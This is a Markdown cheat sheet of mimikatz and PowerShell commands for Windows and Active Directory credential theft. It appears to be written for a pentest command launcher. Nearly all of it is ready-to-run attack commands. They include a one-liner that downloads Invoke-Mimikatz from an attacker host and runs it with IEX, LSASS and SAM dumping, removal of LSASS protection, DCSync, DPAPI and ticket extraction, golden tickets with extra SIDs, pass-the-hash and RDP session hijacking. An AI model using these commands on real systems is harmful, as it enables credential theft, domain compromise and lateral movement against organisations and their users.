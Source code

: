 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## ps1 - load Invoke-Mimikatz
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/Invoke-Mimikatz.ps1') | IEX ; Invoke-mimikatz
```

## mimikatz onliner
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all" "lsadump::sam" "exit"
```

## mimikatz disable PPL and dump passwords
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords /all" "exit"
```

## mimikatz - vault - Get passwords of scheduled tasks
```
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```

## mimikatz - dcsync - user (krbtgt/Administrator)
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```


## mimikatz - dcsync - all (krbtgt/Administrator)
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /all /csv" "exit"
```

## mimikatz - extract credentials from dump
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords /all" "exit"
```

## mimikatz - extract credentials from shadow copy (1)
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## mimikatz - extract credentials from shadow copy (2)
Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract - on hand shadow volume copy
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, tickets

## mimikatz - tickets - list
```
sekurksa::tickets
```

## mimikatz - tickets - extract 
```
sekurlsa::tickets /export
```

% mimikatz, dpapi, credman


## mimikatz - credman - List Credentials Manager
```
sekurlsa::Credman
```


## mimikatz - dpapi - check the file to get guidMasterKey
Seatbelt come in handy for enumerating credential blob files' location
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile>
```

## mimikatz - dpapi - find master key
```
$ mimikatz !sekurlsa::dpapi
```

## mimikatz - dpapi - use master key
sid : origin domain sid : Get-DomainSID -Domain domainname
sid : origin domain sid : Get-DomainSID -Domain domainname
```
$ mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\<credfile> /masterkey:<masterkey>
```

## mimikatz - dpapi - Extract masterkey Administrator
```
mimikatz sekurlsa::dpapi
```


## mimikatz - dpapi - Extract masterkey with password
```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /sid:<SID> /password:<password> /protected
```

## mimikatz - dpapi - Extract masterkey AD
```
dpapi::masterkey /in:"C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\<guidMasterKey>" /rpc
```


% mimikatz, ad


## mimikatz - forest extra SID
sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth

## pth run powershell remotelly
#plateform/windows  #target/local  #cat/ATTACK/PTH 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```

## pth to RDP
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/PTH
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

% mimikatz, rdp

## Extract RDP passwords
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 
```
ts::logonpasswords
```

## List RDP sessions 
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON
```
ts::sessions
```

## Hijack RDP session 
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/HIJACK
```
ts::remote /id:<id>
```


## change user password (Reset Domain)
#plateform/windows #target/local #cat/CREDENTIAL-ACCESS
```
lsadump::setntlm /user:<target_user> /password:VeryStrongPass1! /server:<dc_name>
```


## change user password (Reset Local)
#plateform/windows #target/local #cat/CREDENTIAL-ACCESS
```
lsadump::setntlm /user:<target_user> /password:VeryStrongPass1! /server:<target_name>
```